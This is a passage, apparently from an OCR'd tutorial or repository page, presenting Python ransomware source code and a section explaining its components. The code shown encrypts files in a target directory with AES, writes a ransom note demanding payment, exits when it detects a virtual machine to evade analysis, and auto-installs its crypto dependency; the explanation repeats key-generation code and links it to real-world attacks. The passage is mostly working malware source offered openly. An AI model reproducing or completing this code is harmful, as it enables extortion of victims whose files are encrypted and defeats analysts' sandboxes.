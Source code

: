 ```python
    Once payment is received, you will receive instructions to decrypt your files.
    """
    with open(note_path, "w") as f:
        f.write(ransom_message)

# Main ransomware function
def ransomware():
    if is_virtual_environment():
        print("[!] Virtual environment detected. Exiting.")
        sys.exit(1)

    key = generate_key()
    encrypt_files_in_directory(TARGET_DIR, key)
    create_ransom_note()
    print("[*] Files have been encrypted and ransom note created.")

# Run ransomware
if __name__ == "__main__":
    ransomware()
```

---

## Explanation of Key Components

### 1. **Automatic Dependency Installation**

The `install_module()` function installs required dependencies if they are missing, using `pip`. Here, the `pycryptodome` library is necessary for AES encryption.

```python
def install_module(module_name):
    try:
        __import__(module_name)
    except ImportError:
        print(f"[*] Installing {module_name} module...")
        subprocess.check_call([sys.executable, "-m", "pip", "install", module_name])
```

### 2. **AES Encryption and Key Generation**

The ransomware uses AES encryption with CBC mode. A random key is generated and saved to a file (`KEY_FILE`). This key will be needed to decrypt the files, making it a critical element in real-world ransomware attacks.

```python
def generate_key():
    key = get_random_bytes(16)
    with open(KEY_FILE, "wb") as f:
        f.write(key)
    return key
```
